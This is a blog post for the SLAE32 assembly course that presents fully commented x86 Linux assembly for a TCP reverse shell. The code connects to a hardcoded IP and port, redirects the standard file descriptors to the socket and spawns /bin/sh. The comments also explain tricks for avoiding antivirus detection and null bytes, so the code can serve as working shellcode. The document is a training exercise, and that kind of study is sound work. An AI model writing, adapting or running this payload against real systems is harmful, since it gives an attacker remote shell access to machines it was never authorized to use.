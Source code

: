 ```yaml
---
layout: post
title: SLAE32 Assignment 2 - reverse shell
excerpt: asm code and comment for my revshell
---
```

    ; name     : tcprevshell
    ; author     : Sandro "guly" Zaccarini SLAE-1037
    ; purpose    : the program will create a new connection to a given ip/port and present
    ;              a shell to it this code has been written for SLAE32 assignment 2
    ; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h ,
    ;              man socketcall
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> dup fd -> spawn /bin//sh
    ;
    ; i'll use different function name to keep it more readable. mostly, function are never called and are used just as "anchor for the human eyes"
    
    global _start
    
    section .text
    
    ; dummy function used to break easily on gdb while debugging, just rets without touching anything
    ; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
    trap:
    ret
    
    zero:
    ; zero eax and ebx by xoring against themself
    xor eax,eax
    xor ebx,ebx
    ret
    
    socketcall2eax:
    ; place syscall code for socketcall in eax, which is 0x66, no need to zero because i use mov.
    ; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV, when 0x33 is the call acct and looks harmless to me
    mov al,0x33
    add al,0x33
    ret
    
    ; main code starts here
    _start:
    ; start by zeroing eax,ebx. not really needed because registers are clean, but better safe than sorry
    call zero
    
    createsocket:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create a socket
    ; references  : man socket
    ; description :
    ; socketcall is the syscall used to work with socket. i'm going to use this syscall to create and connect
    ; the very first thing i have to do, is to create the socket itself. by reading references, i see that she needs 3 registers:
    ; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall call of course and that's why i created a function on top
    ; ebx => socket call id, that is 0x1 for socket creation
    ; ecx => pointer to socket args
    ;
    ; man socket shows me that socket's args are:
    ; domain   => AF_INET because i'm creating a inet socket, and is 0x2
    ; type     => tcp is referenced as STREAM, that is 0x1
    ; protocol => unneded here because there is no inner protocol, so i'll use 0x0
    
    ; not, i'm creating ecx because a zeroed eax is perfect for the purpose
    ; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
    push eax
    inc eax
    push eax
    inc eax
    push eax
    
    ; because socketcall needs a pointer, i'm moving esp address to ecx
    mov ecx,esp
    
    ; prepare eax to hold the socketcall value as discussed before
    call socketcall2eax
    
    ; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket (pun intended :) )
    inc ebx
    
    ; do the call and create socket
    int 0x80
    
    ; because syscall rets to eax, if everything's good, eax will hold socket file descriptor: save it to esi to have it safe for the whole run
    mov esi,eax
    
    connect:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : connect to raddr:rport
    ; references  : man connect , man 7 ip
    ; description :
    ; eax => syscall id 0x66 for socketcall
    ; ebx => connect call id, 0x3 taken from linux/net.h
    ; ecx => pointer to address struct
    ;
    ; man connect shows me that args are:
    ; sockfd  => already saved in esi
    ; address => pointer to ip struct
    ; addrlen => addrlen is 32bit (0x10)
    ;
    ; man 7 ip shows address struct details. arguments are:
    ; family => AF_INET, so 0x2
    ; port   => held by rport from .data
    ; addr   => held by raddr from .data
    
    ; again, better safe than sorry
    call zero
    
    ; push arg in reverse and move the pointer to ecx
    ; prepare stack pointer to addr struct defined in man 7 ip
    ; push raddr, defined in .data
    push raddr
    ; push port to bind to, defined in .data. pushed as word.
    push word rport
    ; push AF_INET value as word again
    push word 0x2
    ; get stack pointer to ecx
    mov ecx,esp
    
    ; push arg, again in reverse order
    ; addrlen is fixed to 16, or 0x10
    push byte 0x10
    ; pointer to addr struct
    push ecx
    ; sockfd, saved before to esi
    push esi
    ; stack pointer to ecx again, to feed bind socketcall
    mov ecx,esp
    
    ; ebx has been zeroed, mov 0x3 to him
    mov bl,0x3
    
    ; same call to have 0x66 to eax and do socketcall
    call socketcall2eax
    
    ; do the call
    int 0x80
    
    dupfd:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create fd used by /bin//sh
    ; references  : man dup2
    ; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
    ; this code will create said fd
    ; eax => 0x3f got from kernelgrok website
    ; ebx => clientid
    ; ecx => newfd id, said file descriptor
    ;
    ; i'm going to create them by looping using ecx, to save some instruction. ecx will start at 2, then is dec and fd is created.
    ; as soon as ecx is 0, the loop ends
    
    
    ; i'm using a different method from one i've used for bindshell just to try.
    ; i'll put 0x3 to ecx to start creating STDERR just after dec
    ; ecx is dirty but edx is 0x0, just swap them
    xchg ecx,edx
    mov cl,0x3
    
    ; copy socket fd to ebx to feed clientid
    mov ebx,esi
    
    ; zero eax and start the loop
    xor eax,eax
    dup2:
    ; dup2 call id
    mov al,0x3f
    
    ; dec ecx to have 2,1,0
    dec ecx
    int 0x80
    ; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
    jnz dup2
    
    spawnshell:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : spawn /bin//sh
    ; references  : man execve
    ; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the shellcode itself
    ; and null terminating it by pushing a zeroed register at first
    ; eax => execve call, 0xB
    ; ebx => pointer to executed string, which will be /bin//sh null terminated
    ; ecx => pointer to args to executed command, that could be 0x0
    ; edx => pointer to environment, which could be 0x0
    ;
    ; i need to push a null byte to terminate the string, easiest way is to zero a reg and push it but i know ecx is 0x0 so i can save one op
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    ; here the stack will looks like a null terminated /bin/sh:
    ; /bin//sh\0\0\0\0\0\0\0\0
    
    ; and place pointer to ebx
    mov ebx,esp
    
    ; envp to edx and ecx
    push ecx
    mov edx,esp
    push ecx
    mov ecx,esp
    
    ; execve syscall here
    mov al,0xB
    
    ; and pop shell
    int 0x80
    
     _end:
    ; neat exit
    xor eax,eax
    mov al,0x1
    int 0x80
    
    section .data
    ; 65533 converted in hex, then little endian
    rport equ 0xFDFF
    ; 172.16.201.162 in hex, then little endian
    ; i'm lucky that i don't have any 0 in my address, else raddr will contain null bytes. i'm going to publish also a 02_revshell_tcp_127.0.0.1.asm to challenge myself a bit
    raddr equ 0xa2c910ac
    
    ; This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
